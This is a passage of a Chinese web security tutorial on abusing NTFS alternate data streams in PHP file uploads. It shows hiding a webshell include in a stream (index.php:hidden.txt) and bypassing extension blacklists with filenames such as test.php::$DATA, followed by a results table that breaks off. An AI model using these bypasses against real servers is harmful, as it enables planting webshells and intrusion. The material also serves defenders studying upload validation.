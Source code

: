 index网页会正常显示，就是会多了一个流文件，我们上传一个正常的php文件，文件包含内容是

```
<pre name="code" class="html"><?php include('index.php:hidden.txt')?>  
```

一句话便被包含进来了，达到了隐蔽的效果。

绕过黑名单验证

在测试中我们发现，如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：

```
<?php phpinfo();?>
```

下面是上传时会出现的现象：

```
<pre name="code" class="html">
```

<table>
	<tr>
		<td>
		上传的文件名
		</td>
		<td>
		服务器表面现象
		</td>
		<td>
		生成的文件内容
		</td>
	</tr>
	<tr>
		<td>
		Test.php:a.jpg
		</td>
		<td>
		生成Test.php
		</td>
		<td>
		空
		</td>
	</tr>
	<tr>
		<td>
		Test.php::$DATA
		</td>
		<td>
		生成test.php
		</td>
		<td>
		&lt;?php phpinfo();?>
		</td>
	</tr>	
	<tr>
		<td>
		Test.php::$INDEX_ALLOCATION
		</td>
		<td>
		生成test.php文件夹
		</td>
		<td>
		空
		</td>
	</tr>
	<tr>